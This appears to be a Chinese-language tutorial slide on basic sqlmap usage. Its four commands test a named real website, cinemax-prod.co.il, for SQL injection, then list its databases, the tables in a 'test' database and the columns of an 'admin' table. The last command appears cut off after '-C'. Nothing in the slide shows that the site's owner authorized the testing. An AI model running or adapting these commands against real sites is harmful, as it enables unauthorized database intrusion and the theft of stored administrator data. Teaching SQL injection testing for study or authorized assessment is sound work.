

基本用法
1. Sql注入
> sqlmap.py –u “http://www.cinemax-prod.co.il/project.asp?item_id=10”
2. 查询有哪些数据库
> sqlmap.py –u “http://www.cinemax-prod.co.il/project.asp?item_id=10”  --dbms mysql --level 3 --dbs
3. 查询test数据库中有哪些表
> sqlmap.py –u “http://www.cinemax-prod.co.il/project.asp?item_id=10”  --dbms mysql --level 3 -D test --tables
4. 查询test数据库中admin表有哪些字段
> sqlmap.py –u “http://www.cinemax-prod.co.il/project.asp?item_id=10” --dbms mysql --level 3 -D test -T admin -C